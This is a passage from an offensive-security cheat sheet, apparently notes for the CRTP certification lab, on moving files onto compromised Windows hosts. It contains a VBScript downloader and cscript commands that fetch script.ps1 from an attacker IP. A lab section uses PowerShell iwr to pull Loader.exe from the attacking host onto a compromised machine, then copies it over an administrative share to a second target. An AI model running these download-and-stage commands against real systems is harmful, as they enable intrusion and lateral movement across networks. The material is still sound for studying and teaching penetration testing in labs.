 {% tab title="2. CMD/PS -> Execute Script" %}
{% code overflow="wrap" %}
```powershell
# execute script
cscript.exe /nologo wget.js https://10.10.10.10/script.ps1 script.ps1
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="1. VBScript -> Create Script" %}
```vba
# create a file called `wget.vbs`
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
{% endtab %}

{% tab title="2. CMD/PS -> Execute Script" %}
{% code overflow="wrap" %}
```powershell
# execute script
cscript.exe /nologo wget.vbs https://10.10.10.10/script.ps1 script.ps1
```
{% endcode %}
{% endtab %}
{% endtabs %}

## CRTP

{% tabs %}
{% tab title="LO7" %}
Transfer files from the attacking host to a compromised host (`dcorp-ci`):

```powershell
iwr http://172.16.100.37/Loader.exe -OutFile c:\users\public\Loader.exe
```

Copy the file from `dcorp-ci` to the target host (`dcorp-mgmt`):

{% code overflow="wrap" %}
```powershell
echo F | xcopy c:\users\public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```
{% endcode %}
